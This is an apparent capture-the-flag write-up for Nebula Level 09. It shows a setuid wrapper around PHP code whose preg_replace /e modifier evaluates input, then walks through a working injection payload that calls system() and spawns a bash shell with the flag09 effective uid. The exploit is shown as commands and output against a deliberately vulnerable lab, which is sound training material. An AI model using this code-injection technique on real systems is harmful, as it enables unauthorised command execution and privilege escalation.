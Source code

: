 # Level 09

There’s a C setuid wrapper for some vulnerable PHP code.

To do this level, log in as the **level09** account with the password **level09**. Files for this level can be found in /home/flag09.

## Source Code

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

## Writeup

In the home directory of **flag09** there are two file, the binary **flag09** that is the SUID wrapper of php code and the php code.

```bash
level09@nebula:/home/flag09$ ll
total 13
drwxr-x--- 2 flag09 level09   98 2011-11-20 21:22 ./
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ../
-rw-r--r-- 1 flag09 flag09   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag09 flag09  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag09 level09 7240 2011-11-20 21:22 flag09*
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
-rw-r--r-- 1 flag09 flag09   675 2011-05-18 02:54 .profile
```

If we run the code we see that the program need almost one parameter to work:

```bash
level09@nebula:/home/flag09$ /home/flag09/flag09 
PHP Notice:  Undefined offset: 1 in /home/flag09/flag09.php on line 22
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/flag09/flag09.php on line 13
```

Create a text file in **/tmp** directory and try to pass it to the program:

```bash
echo "test test test" > /tmp/test
```

Now try to launch the program:

```bash
/home/flag09/flag09 /tmp/test
```

This is the output:

```bash
level09@nebula:/home/flag09$ /home/flag09/flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
test test test
```

If we check inside the code, we can see that the program call the **preg_replace** with a regex and the **e** parameter.

This parameter allow preg_replate to execute code inside the string.

The program use this parameter to call the **spam()** function with **\2** parameter, that replece it with the remaining text.

Try to put inside out text file a string that satisfie the regex:

```bash
echo "[email test@test.test]" > /tmp/test
```

Execute again the program:

```bash
level09@nebula:/home/flag09$ /home/flag09/flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
test AT test dot test
```

The replacement is correct. Try now to put inside the text file some php code that can be evaluate:

```bash
echo "[email {\${system(id)}}]" > /tmp/test
```

This will show:

```bash
level09@nebula:/home/flag09$ ./flag09 /tmp/test 
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant id - assumed 'id' in /home/flag09/flag09.php(15) : regexp code on line 1
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
PHP Notice:  Undefined variable: uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09) in /home/flag09/flag09.php(15) : regexp code on line 1

```

So we can use the second argument of the program to pass the **/bin/bash -p** command.

The second argument is stored in the **$use_me** variable:

```bash
echo "[email {\${system(\$use_me)}}]" > /tmp/test
```

Just launch:

```bash
/home/flag09/flag09 /tmp/test "/bin/bash -p"
```

This will give us a bash shell with **flag09** **euid**:

```bash
level09@nebula:/home/flag09$ ./flag09 /tmp/test "/bin/bash -p"
bash-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
```

We can finally run **getflag** command:

```bash
bash-4.2$ getflag
You have successfully executed getflag on a target account
```